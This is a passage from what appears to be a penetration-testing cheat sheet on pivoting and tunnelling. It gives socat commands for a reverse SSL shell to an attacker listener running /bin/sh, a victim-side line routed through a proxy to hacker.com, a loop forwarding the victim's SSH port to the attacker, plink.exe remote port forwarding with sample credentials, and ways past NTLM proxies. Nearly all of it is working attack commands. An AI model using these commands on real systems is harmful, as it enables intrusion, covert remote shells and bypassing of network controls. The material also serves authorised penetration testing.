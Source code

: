 You can bypass a non-authenticated proxy executing this line instead of the last one in the victim's console:

OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|PROXY:hacker.com:443,connect-timeout=5|TCP:proxy.lan:8080,connect-timeout=5

​https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/​
SSL Socat Tunnel

/bin/sh console

Create certificates in both sides: Client and Server

# Execute this commands in both sides
FILENAME=socatssl
openssl genrsa -out $FILENAME.key 1024
openssl req -new -key $FILENAME.key -x509 -days 3653 -out $FILENAME.crt
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
chmod 600 $FILENAME.key $FILENAME.pem

attacker-listener> socat OPENSSL-LISTEN:433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh
victim> socat STDIO OPENSSL-CONNECT:localhost:433,cert=client.pem,cafile=server.crt

Remote Port2Port

Connect the local SSH port (22) to the 443 port of the attacker host

attacker> sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr #Redirect port 2222 to port 443 in localhost 
victim> while true; do socat TCP4:<attacker>:443 TCP4:127.0.0.1:22 ; done # Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22 
attacker> ssh localhost -p 2222 -l www-data -i vulnerable #Connects to the ssh of the victim

Plink.exe

It's like a console PuTTY version ( the options are very similar to a ssh client).

As this binary will be executed in the victim and it is a ssh client, we need to open our ssh service and port so we can have a reverse connection. Then, to forward a only locally accessible port to a port in our machine:

echo y | plink.exe -l <Our_valid_username> -pw <valid_password> [-p <port>] -R <port_ in_our_host>:<next_ip>:<final_port> <your_ip>
echo y | plink.exe -l root -pw password [-p 2222] -R 9090:127.0.0.1:9090 10.11.0.41 #Local port 9090 to out port 9090

NTLM proxy bypass

The previously mentioned tool: Rpivot
OpenVPN can also bypass it, setting these options in the configuration file:

http-proxy <proxy_ip> 8080 <file_with_creds> ntlm

Cntlm

​http://cntlm.sourceforge.net/​
